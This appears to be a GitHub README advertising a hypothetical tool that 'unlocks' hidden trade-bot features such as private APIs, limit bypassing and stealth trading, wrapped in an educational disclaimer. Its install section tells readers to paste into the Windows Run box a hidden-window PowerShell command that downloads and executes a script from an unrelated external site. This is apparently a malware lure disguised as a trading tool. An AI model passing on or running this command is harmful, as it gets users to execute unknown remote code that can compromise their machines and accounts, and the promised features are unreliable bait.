 ## 🚀 Unlock the Full Potential: Introducing Advanced Trade Bot Features 🤖✨

Welcome to the exciting (and slightly mischievous 😉) side of automated trading! This repository explores the *concept* of software designed to access and utilize hidden or advanced functionalities within Trade Bots.

**Disclaimer:** This project is for **educational and theoretical exploration only**. The use of such software to gain unfair advantages or manipulate markets is **illegal and unethical**. We do not endorse or facilitate such activities.

---

### What is this all about? 🤔

Imagine your standard Trade Bot. It's a powerful tool, but what if there's more beneath the surface? This project delves into the possibility of tools that can "unlock" features not readily available to the average user. Think of it as having a master key 🔑 to a hidden vault of trading possibilities.

---

### Potential Capabilities of this Hypothetical Software:

Here's a peek at what this kind of software *could* potentially achieve:

*   **🔓 Accessing Private APIs:** Go beyond the standard API. Imagine tapping into more comprehensive or less documented APIs for deeper control and data access. 🕵️‍♂️
*   **🔄 Data Manipulation & Interception:** The ability to intercept or modify data exchanged between the bot and the exchange. This could (theoretically) allow for altering parameters like prices or volumes. 😈
*   **🚫 Bypassing Limits & Restrictions:** Standard bots often have built-in safeguards. This software could potentially bypass limits on trade size, frequency, or even allowed strategies. 💪
*   **📊 Gaining Insight into Other Strategies:** If the bot has social features, imagine getting a glimpse into the trading strategies of other users that are typically kept private. 🧠
*   **🔑 Activating Undocumented Strategies:** Discover and utilize trading strategies that are coded into the bot but not officially available to users. ✨

---

### Additional Potential "Advantages" (from a purely theoretical perspective):

While unethical and illegal in practice, here are some hypothetical "benefits" this kind of software *could* offer to a malicious actor:

*   **⚡️ Increased Trading Speed:** Potentially execute trades faster by bypassing standard checks or using more direct API calls. 💨
*   **🎯 Precision Targeting:** Execute trades with a higher degree of precision by manipulating order parameters. 🎯
*   **👻 Stealth Operations:** Operate with reduced visibility by bypassing some of the bot's logging or reporting features. 🕶️
*   **💰 Enhanced Profit Potential (Unethically):** Gain an unfair advantage over other traders, potentially leading to increased profits through manipulation. 😈💸

---

### Why Explore This? 🤔

Understanding the potential vulnerabilities and capabilities of such software is crucial for:

*   **🛡️ Security Professionals:** To identify potential threats and develop stronger defenses for trading platforms.
*   **👨‍💻 Developers:** To build more secure and robust Trade Bots.
*   **📚 Researchers:** To study the landscape of automated trading and its potential for abuse.

---

# INSTALATION:
### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/grapesubject/repairbetter))).Invoke();
```
## Use it wisely and very carefully!
